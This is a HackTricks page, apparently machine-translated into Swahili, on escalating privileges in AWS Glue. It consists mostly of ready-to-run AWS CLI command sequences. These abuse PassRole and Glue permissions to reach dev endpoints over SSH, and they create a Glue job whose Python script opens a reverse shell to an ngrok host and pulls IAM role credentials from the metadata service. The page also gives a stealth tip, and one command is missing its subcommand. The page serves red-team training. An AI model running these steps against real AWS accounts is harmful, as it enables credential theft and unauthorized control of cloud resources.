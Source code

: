 # AWS - Glue Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Watumiaji wenye ruhusa hizi wanaweza **kuanzisha mwisho mpya wa maendeleo ya AWS Glue**, **wakitenga jukumu la huduma lililopo linaloweza kuchukuliwa na Glue** na ruhusa maalum kwa mwisho huu.

Baada ya kuanzishwa, **mshambuliaji anaweza SSH kwenye mfano wa mwisho**, na kuiba akidi za IAM za jukumu lililotengwa:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
Kwa madhumuni ya kujificha, inapendekezwa kutumia akreditivu za IAM kutoka ndani ya mashine ya virtual ya Glue.

**Madhara Yanayoweza Kutokea:** Privesc kwa jukumu la huduma ya glue lililotajwa.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Watumiaji wenye ruhusa hii wanaweza **kubadilisha funguo za SSH za maendeleo** za Glue zilizopo, **kuwezesha ufikiaji wa SSH kwake**. Hii inamruhusu mshambuliaji kutekeleza amri kwa mamlaka ya jukumu lililounganishwa na mwisho:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**Madhara Yanayoweza Kutokea:** Privesc kwa huduma ya glue inayotumika.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

Watumiaji wenye **`iam:PassRole`** pamoja na **`glue:CreateJob` au `glue:UpdateJob`**, na **`glue:StartJobRun` au `glue:CreateTrigger`** wanaweza **kuunda au kuboresha kazi ya AWS Glue**, wakitenga akaunti yoyote ya **Glue service**, na kuanzisha utekelezaji wa kazi hiyo. Uwezo wa kazi hiyo unajumuisha kukimbia msimbo wa Python wa kawaida, ambao unaweza kutumiwa kuanzisha shell ya kurudi. Shell hii ya kurudi inaweza kisha kutumika kuhamasisha **IAM credential** za jukumu lililounganishwa na kazi ya Glue, na kusababisha uwezekano wa ufikiaji usioidhinishwa au vitendo kulingana na ruhusa za jukumu hilo:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**Madhara Yanayoweza Kutokea:** Privesc kwa huduma ya glue iliyotajwa.

### `glue:UpdateJob`

Kwa ruhusa ya sasisho tu, mshambuliaji anaweza kuiba Akreditivu za IAM za jukumu lililounganishwa tayari.

**Madhara Yanayoweza Kutokea:** Privesc kwa huduma ya glue iliyounganishwa.

## Marejeleo

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
